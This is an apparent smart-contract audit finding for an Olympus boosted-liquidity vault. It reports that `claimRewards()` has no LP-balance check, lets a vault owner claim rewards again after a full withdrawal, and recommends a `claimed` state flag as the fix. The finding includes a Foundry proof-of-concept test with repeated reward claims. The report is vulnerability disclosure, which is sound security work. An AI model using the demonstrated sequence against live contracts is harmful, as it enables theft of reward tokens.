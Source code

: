 CRYP70

high

# VaultOwner can keep claiming free rewards after withdrawal

## Summary

Users are able to supply wsteth tokens to the vault using the `deposit()` function and withdraw from from the vault while also claiming rewards by setting the `claim` flag to true. When a user withdraws with a `true` claim flag, they should be able to completely withdraw from the vault however, there lacks a check of LP when attempting to claim rewards. 

## Vulnerability Detail

The code for `claimRewards()` looks like the following:

```solidity
function claimRewards() external override onlyWhileActive onlyOwner nonReentrant {
    // Claim rewards from Aura
    auraRewardPool().getReward(owner(), true);
    // Send rewards to owner
    _sendRewards();
}
```

Because there is no validation of the LP status of the vault owner, when calling `claimRewards()`, users may be able to claim free rewards after withdrawing from the protocol. The proof of concept below outlines this scenario:

```solidity
function testClaimRewardsAfterWithdrawal() public {

    // Setup scenario 
    ERC20 balReward = ERC20(address(aliceVault.bal()));

    vm.startPrank(address(alice));
    wsteth.approve(address(aliceVault), wsteth.balanceOf(address(alice)));
    aliceVault.deposit(100 ether, 0);

    uint256[] memory minTokenAmounts = new uint256[](1);
    minTokenAmounts[0] = 0;

    aliceVault.withdraw(100 ether, minTokenAmounts, true);

    aliceVault.claimRewards();
    aliceVault.claimRewards();
    aliceVault.claimRewards();
    aliceVault.claimRewards();
    aliceVault.claimRewards();
    aliceVault.claimRewards();
    vm.stopPrank();

    assertEq(aliceVault.getLpBalance(), 0);
    assertEq(balReward.balanceOf(address(alice)), 7 ether);

}
```

## Impact

This effectively results in the theft of reward tokens.

## Code Snippet

- [https://github.com/sherlock-audit/2023-03-olympus/blob/main/sherlock-olympus/src/policies/BoostedLiquidity/BLVaultLido.sol#L263-L269](https://github.com/sherlock-audit/2023-03-olympus/blob/main/sherlock-olympus/src/policies/BoostedLiquidity/BLVaultLido.sol#L263-L269)

## Tool used

Manual Review

## Recommendation

It’s recommended that the vault checks that the user is still invested in the protocol and hasn’t claimed their rewards yet. This can by done by setting a state variable `claimed` which is for example `false` on deposit and `true` on withdrawal if the `claim` flag is set to true. This `claimed` state variable can be validated when the user attempts to claim rewards. This essentially locks the ability to call the `claimRewards()` function if the user hasn’t deposited.